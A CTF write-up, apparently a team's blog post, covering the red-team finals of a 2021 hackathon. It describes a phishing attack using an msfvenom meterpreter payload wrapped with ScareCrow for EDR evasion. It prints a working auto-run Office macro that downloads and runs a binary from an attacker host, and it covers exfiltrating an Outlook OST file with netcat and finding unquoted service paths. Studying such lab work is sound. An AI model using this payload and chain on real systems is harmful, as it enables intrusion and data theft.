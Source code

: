 ```yaml
---
title: "ABC CTF Challenge"
date: 2021-08-28T03:09:07-03:00
draft: false
cover: "images/abcctf/2021_cybersecurity.jpeg"
blogs: ["CTF_Challenges"]
---
```


## ABC CyberHackathon RedTeam CTF
## ==============================

[![CY3ER-R4T](https://miro.medium.com/fit/c/56/56/1*OmV3HIyQWlvcOSNAAU7uOQ.png)](https://medium.com/?source=post_page-----43bddc822241--------------------------------)[

CY3ER-R4T

**INTRODUCTION**

My team RedTeamNG recently came first in the The American Business Council Cybersecurity Hackathon 2021 organized by ctf.ng and major sponsors bothering from American Business Council,Microsoft,AWS, Cisco, Comercio, HP, IBM and others

This write up would be focused only on the finals and specifically the RedTeam challenges running through the methodology used to tackling it,  
other post by my team mate [Muzec](https://medium.com/u/c9e9bd44299d?source=post_page-----43bddc822241--------------------------------) would be covering the Web Challenges.

**SCENARIO**

The scenario we are presented with by the organizers is that of an Fat Fingered individual that unconsciously opens every email and attachment he gets in he’s corporate email : [obiora\_nurudeen@ctf.ng](http://mailto:obiora_nurudeen@ctf.ng)

{{< figure src="/images/abcctf/scenario.png">}}

Armed with just he’s name Nurudeen Obiora, the email above and the knowledge of the targets low awareness in basic email security,  
we thought of emulating a strategy we recently used at the DEFCON 29 RedTeam CTF by sending the target an email with the reverse shell payload attached.

Now here is where the problem begins, as with almost every field: There is a race, race between Good and Bad, Positive and Negative  
our intentions are of no good so every mechanism of security is against us which is a “replica” of a real life situation

**1st attempt:** _Sending an msfvenom payload + gmail_  
Using msfvenom we created a windows reverse shell payload


{{< figure src="/images/abcctf/msfvenom.gif">}}

Attempting to send it to the target using swaks  
swaks : SWiss Army Knife Smtp

we are immediately flagged as malicious by Gmails Egress Malware Scanner

{{< figure src="/images/abcctf/egress-gmail.gif">}}

**2st attempts:** We resulted into trying several empire powershell payload and bypasses, Persian Hydra Xor encryption with Custom keys, EgeBalci/sgn Shikata\_ga\_nai encoder, All to no avail

{{< figure src="/images/abcctf/head-boom.gif">}}

**Final attempt:** After numerous swift and failed attempt, we remembered Matthew Eidelberg talk at SourceZero Con : Remaining Invisible in the Age of EDR, a talk which showcase the ability to bypass defenses with a term called DLL unhooking using the ScareCrow Binary

In short, we can generate some raw shellcode from the software of our choice (Cobalt Strike, Metasploit, PoshC2, etc) and pass it to the Scarecrow to get a loader back that will implement some common EDR evasion techniques.

we decide to create a create a `_windows/x64/meterpreter\_reverse\_tcp_` shellcode using msfvenom \[msfvenom shellcode is a pain, its crappy and might be unstable at times\]
{{< figure src="/images/abcctf/msfvenom.png">}}

then pass the raw shellcode to the scarecrow binary along with a random domain name for a cloned signed certificate

{{< figure src="/images/abcctf/scarecrow.png">}}

we then created a meterpreter listener using the connection variable of the shellcode as options: “would have preferred Cobalt-strike but its for the BigBoys like Rotimi:)”

**DELIVERY**

The output of ScareCrow is an obfuscated .exe payload, being at the third stage of the “cyber attack cycle” which is delivery  
we somehow need to get the payload the victim machine and “run” it

We decided to use the old aged Microsoft Office Document with macro with the .docm extension,  
the function of the macro was to run a powershell one-liner that downloads the payload \[Powerpnt.exe\] binary hosted on our machine, store it in C:\\windows\\temp\\ and then run it

> Sub Document\_Open()  
> MyMacro  
> End Sub
> 
> Sub AutoOpen()  
> MyMacro  
> End Sub
> 
> Sub MyMacro()  
> Dim str As String  
> str = “powershell iwr -uri [http://x.x.x.x/](http://20.87.43.15/OutLook.exe)Powerpnt.exe -o c:\\windows\\temp\\Powerpnt.exe; c:\\windows\\temp\\Powerpnt.exe”  
> GetObject**(**“winmgmts:”**)**.Get**(**“Win32\_Process”**)**.Create str, Null, Null, pid  
> Shell str, vbHide  
> End Sub


{{< figure src="/images/abcctf/macro.png">}}

**WEAPONIZATION**

Weaponized the final email and sent the .docm to the target by gmail

{{< figure src="/images/abcctf/weapon-email.png">}} 

Tick! tock! Tick! tock!  
Itchy finger Nurudeen opens the malicious document with the payload sending us a meterpreter session on our VPS \[wish it was cobalt strike, somebody buy us cobalt strike already!!\]

{{< figure src="/images/abcctf/meterpreter.png">}} 

Now the hunt for flags begin, which literally means _ENUMERATION_  
checking to see what the internal IP looks like, we find the user IP address we we already solved the unintended way by checking the header of the response email`\[FLAG8\]`

{{< figure src="/images/abcctf/header.png">}}

checking the current user directory and finding `unattend.xml` that contains `\[FLAG4\]`

{{< figure src="/images/abcctf/ctf_xml.jpeg">}}

curious about what local users are on the machine just to get an idea of what movement of privilege escalation was necessary, lateral or horizontal  
we find two more flags `\[FLAG3\]` `\[FLAG5\]`


{{< figure src="/images/cybersocctf/net_user.jpeg">}}

One of the challenges goes by the name “Registry Never Lies” which immediately prompted us to query the registry table to find \[FLAG2\]

{{< figure src="/images/abcctf/regq.jpeg">}}


The what seems to be easy challenge turned to a battle “Outlook Storage 150points”, as most application data are stored in %APPDATA% we dived into it to get our hands on the loot after a quick research we figure the ost file is the microsoft outlook data bucket trying to transfer the file using the netcat binary, it failed cause the file was currently locked with the outlook process.

We proceeded to killing the process and sending the OST to our local machine with netcat

{{< figure src="/images/cybersocctf/task_kill.jpeg">}}

Converting the ost with the steller converter we find `\[FLAG1\]`

{{< figure src="/images/cybersocctf/steller.jpeg">}}

After running out of flags to find, it was time for horizontal privilege escalation

**LATERAL PRIVILEGE ESCALATION  
Machine Misconfigured with an Unquoted Service Path**

Sometimes it is possible to escalate privileges by abusing mis-configured services. Specifically, this is possible if path to the service binary is not wrapped in quotes and there are spaces in the path..  
If you are using a long file name that contains a space, use quoted strings to indicate where the file name ends and the arguments begin; otherwise, the file name is ambiguous.

For example, consider the string “c:\\program files\\safe software\\enjoy.exe”. This string can be interpreted in a number of ways.  
The system tries to interpret the possibilities in the following order:

**c:\\program.exe**  
**c:\\program files\\safe.exe**  
**c:\\program files\\safe software\\enjoy.exe**

if any of the directory along the path is writable and said service is running with system privileges then this misconfiguration is easily exploitable

we can enumerate and find Unquoted Service Path by using the wmic command `wmic service get name,pathname`

we can aswell check to see if the service is running with system privileges still by using wmic `wmic service get pathname,startname`


{{< figure src="/images/cybersocctf/servicepath.png">}}

> **END OF PART ONE**
>#### The difference between a noob and a hacker is that a hacker has failed more than a noob has ever tried
